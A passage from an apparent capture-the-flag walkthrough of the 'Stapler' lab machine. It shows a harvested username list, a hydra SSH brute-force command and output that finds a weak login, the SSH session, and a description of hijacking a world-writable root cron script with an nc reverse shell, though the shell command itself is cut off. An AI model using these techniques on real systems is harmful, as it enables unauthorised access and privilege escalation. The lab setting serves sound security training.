 ```bash
jamie
Sam
Drew
jess
SHAY
Taylor
mel
kai
zoe
NATHAN
www
elly
```

```bash
kali@kali:~$ hydra -L stapler_users.txt -P stapler_users.txt -e nsr 192.168.56.114 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-03 16:47:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 990 login tries (l:30/p:33), ~62 tries per task
[DATA] attacking ssh://192.168.56.114:22/
[22][ssh] host: 192.168.56.114   login: SHayslett   password: SHayslett
[STATUS] 338.00 tries/min, 338 tries in 00:01h, 656 to do in 00:02h, 16 active
[STATUS] 328.00 tries/min, 656 tries in 00:02h, 339 to do in 00:02h, 16 active
[STATUS] 322.33 tries/min, 967 tries in 00:03h, 28 to do in 00:01h, 16 active
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 8 final worker threads did not complete until end.
[ERROR] 8 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-03 16:50:33
kali@kali:~$ ssh SHayslett@192.168.56.114
The authenticity of host '192.168.56.114 (192.168.56.114)' can not be established.
ECDSA key fingerprint is SHA256:WuY26BwbaoIOawwEIZRaZGve4JZFaRo7iSvLNoCwyfA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.114' (ECDSA) to the list of known hosts.
-----------------------------------------------------------------
~          Barry, do not forget to put a message here           ~
-----------------------------------------------------------------
SHayslett@192.168.56.114s password:
Welcome back!


SHayslett@red:~$ whoami
SHayslett
```

Alright, so I had working credentials to directly access the target's machine. Now my goal was to find another way to escalate these limited privileges to full privileges. Using the relatively well-known `linuxprivchecker.py`, I discovered a cron running a `.sh` script as root every 5 minutes that was world writable. Because of that, I was able to overwrite the contents of that `.sh` file with whatever I wanted, and it would execute as root within 5 minutes. For some reason I didn't get any of the `bash` and `python` versions to give me a root shell, but using the `nc` version did the trick giving me full access:

